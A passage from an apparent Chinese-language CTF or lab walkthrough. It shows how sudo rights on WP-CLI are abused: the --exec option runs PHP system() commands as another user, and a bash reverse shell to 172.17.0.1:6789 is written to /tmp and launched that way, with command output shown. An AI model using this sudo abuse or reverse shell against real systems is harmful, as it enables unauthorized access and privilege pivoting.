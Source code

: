 查看一下官方文档，我发现了一个**exec**参数可以进行**php**代码执行

- [wp cli cmd-dump – WP-CLI Command | Developer.WordPress.org](https://developer.wordpress.org/cli/commands/cli/cmd-dump/)

![](./images/image-137.png)

```
app@3b66fe911993:~$ sudo -u wpuser /usr/local/bin/wp --exec='system("id");' 
sudo -u wpuser /usr/local/bin/wp --exec='system("id");' 
uid=1002(wpuser) gid=1002(wpuser) groups=1002(wpuser),100(users)
sh: 1: less: not found
app@3b66fe911993:~$ 
```

这里我是先写入的恶意代码文件，然后再去执行他

```
app@3b66fe911993:/tmp$ echo 'bash -i >& /dev/tcp/172.17.0.1/6789 0>&1' >shell
echo 'bash -i >& /dev/tcp/172.17.0.1/6789 0>&1' >shell
app@3b66fe911993:/tmp$ cat shell
cat shell
bash -i >& /dev/tcp/172.17.0.1/6789 0>&1
app@3b66fe911993:~$ chmod +x /tmp/shell
chmod +x /tmp/shell

app@3b66fe911993:~$ sudo -u wpuser /usr/local/bin/wp --exec='system("bash /tmp/shell");' 
```

![](./images/image-138.png)

![](./images/image-139.png)
